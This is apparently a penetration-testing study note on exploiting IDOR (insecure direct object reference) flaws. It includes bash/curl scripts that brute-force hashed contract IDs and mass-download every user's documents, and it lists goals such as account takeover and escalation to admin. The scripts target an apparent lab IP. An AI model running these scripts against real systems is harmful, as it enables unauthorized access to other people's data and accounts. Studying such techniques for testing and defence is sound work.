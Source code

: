 # Exploiting IDOR

### URL parameters and APIs&#x20;

Look for parameters that appear to be direct object references. for example:

```
?uid=1 or ?filename=file_1.pdf
```

These parameters can then be incremented or fuzzed. We should pay close attention to the page to look for changes when we change the parameters. For example, in applications that show documents or files for specific users, we may see different files if we change the parameter which would indicate we had found and IDOR vulnerability.&#x20;

### AJAX Calls

Look for unused parameters or API's in the front end code in the form of JavaScript AJAX calls. these may have been accidentally placed or left here and by modifying the HTTP request, we can possibly find an IDOR vulnerability.&#x20;

```
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

### Hashing/Encoding

For parameter input, the application may not always use a plain text value and instead could encode or hash the reference. If this is found the value could possibly be deoded, changed, and then re encoded to attempt to access sensitive data.&#x20;

We can also check the front end code to detect if a reference is being hashed:

```
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

This can make it easy for us to calculate other reference values we would like to fuzz. If we cannot find the hash algorithm in an ajax call in the front end code, then we can use some hash identifier tools to attempt to learn the hash type.

Using this information, we can fuzz the parameter with the correct encoding.&#x20;

take for example this source code, which base64 encodes the value, then md5 hashes:

```
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

We could then craft a bash script, (or you could use burp intruder or zap) to properly modify the payload before sending it:

```
#!/bin/bash

for i in {1..20}; do
	value=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
	curl -sOJ -X POST -d "contract=$value" http://94.237.123.87:59911/download.php
done
```

some points about this script:

-n on the echo removes newline, which will get encoded and change the value if included&#x20;

tr -d ' -' removes the trailing ' -' from the output of the md5sum.

Make sure to review the source code and find out how the encoded value is being generated &#x20;

### User Roles

By registering multiple users and comparing their HTTP requests and object references, this may allow us to better understand how the URL parameters and object references are formatted, so we can use this to our advantage when looking for IDOR.

```
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```

We can try to make the same API call when logged in as user2, and if the call is successful we know there is an IDOR vulnerability.&#x20;

### Mass Enumeration

We can fuzz with tools like Burp Suite, ZAP, or ffuf.&#x20;

#### Bash Script to download all files

Use the element inspector in the browser to identify the elements for the files and find a string to grep on:

```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

Then we can craft a regex just to get the file names we want:&#x20;

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

and finally use a for loop in bash to loop through user ID's and download all files with wget.&#x20;

```
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

### Insecure API's and Function Calls&#x20;

This can be determined by examining requests going out to the server that are updated on the back end. We look for REST calls to API endpoints. these typically use PUT, POST, GET, and DELETE to interact with the API endpoint, and many times use json for the request body. i.e:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We should look for interesting parameters which may have the possibility of an IDOR vulnerability, such as uid, uuid, or role in this instance. We should also look to see if any of these values are being set on our cookie and used for access control, as those can be valuable targets. That typically means the access control is being set client side, which we can modify. We can aim to attempt the following:

1. Change our `uid` to another user's `uid`, such that we can take over their accounts
2. Change another user's details, which may allow us to perform several web attacks
3. Create new users with arbitrary details, or delete existing users
4. Change our role to a more privileged role (e.g. `admin`) to be able to perform more actions

### Chaining IDOR vulnerabilities

Its important to keep in mind that one IDOR vulnerability may lead to another. sensitive information leaked in an information disclosure IDOR might be able to be utilized to exploit insecure API's or function calls. You may be able to use this to modify user details, change a users email address to one you control and request a password reset link, place an XSS in a user detail field, etc.&#x20;
